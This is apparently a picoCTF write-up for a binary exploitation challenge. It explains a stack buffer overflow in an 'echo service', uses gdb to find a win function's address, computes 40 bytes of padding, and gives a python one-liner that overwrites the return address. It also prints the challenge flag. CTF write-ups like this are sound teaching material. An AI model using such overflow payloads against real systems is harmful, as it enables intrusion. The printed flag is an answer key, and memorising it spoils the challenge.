

## Description:
The "secure" echo service welcomes you politely… but what if you don’t stay polite? Can you make it reveal the hidden flag?

## Solution:
1. From the source code, it is clear that the program has a buffer overflow vulnerability: the buffer only has a size of 32 bytes but reads up to 128 bytes. The goal would be to overwrite the return address to invoke the `win` function.
2. Using `gdb`, I found the memory address of `win`: 0x401256. <br>
 <br><br>
3. First, I need to calculate the correct amount of padding needed. <br>
Padding: **32 bytes** (original buffer size) + **8 bytes** (saved RBP) = **40 bytes** <br><br>
4. So, I need to send 40 bytes of padding + address of `win` (0x401256):
```
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*40 + b"\x56\x12\x40\x00\x00\x00\x00\x00")' | ./vuln
```

## Flag:
picoCTF{3ch0_s3rv1c3_br34k5_9e64053d}